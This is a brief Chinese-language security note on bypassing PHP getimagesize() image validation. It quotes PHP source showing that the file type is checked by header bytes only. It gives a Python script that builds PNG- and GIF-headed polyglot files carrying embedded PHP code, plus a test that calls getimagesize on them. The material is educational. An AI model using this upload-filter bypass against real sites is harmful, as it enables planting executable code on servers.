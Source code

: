 # getimagesize图片验证绕过

## getimagesize图片验证绕过

### 参考

- https://0x1.im/blog/php/php-function-getimagesize.html

### 利用范围

- (PHP 4, PHP 5, PHP 7)

### 解析

```c
PHPAPI int php_getimagetype(php_stream * stream, char *filetype TSRMLS_DC)
{
	...
	if (!memcmp(filetype, php_sig_gif, 3)) {
		return IMAGE_FILETYPE_GIF;
	} else if (!memcmp(filetype, php_sig_jpg, 3)) {
		return IMAGE_FILETYPE_JPEG;
	} else if (!memcmp(filetype, php_sig_png, 3)) {
		...
	}
}

PHPAPI const char php_sig_gif[3] = {'G', 'I', 'F'};
...
PHPAPI const char php_sig_png[8] = {(char) 0x89, (char) 0x50, (char) 0x4e, (char) 0x47,
                                    (char) 0x0d, (char) 0x0a, (char) 0x1a, (char) 0x0a};
```

可以看出来 image type 是根据文件流的前几个字节（文件头）来判断的

### 测试

测试代码

```
<?php
print_r(getimagesize('test.php'));
```

利用python脚本生成文件

```python
with open('png.php','wb') as f:
    f.write(b'\x89PNG\r\n\x1a\n<?php phpinfo(); ?>')
with open('gif.php','wb') as f:
    f.write(b'GIF89a<?php phpinfo(); ?>')
```

测试

```php
<?php
print_r(getimagesize('png.php'));
print_r(getimagesize('gif.php'));
```

![](../images/19-7-23_PHP_getimagesize图片验证绕过_1.png)

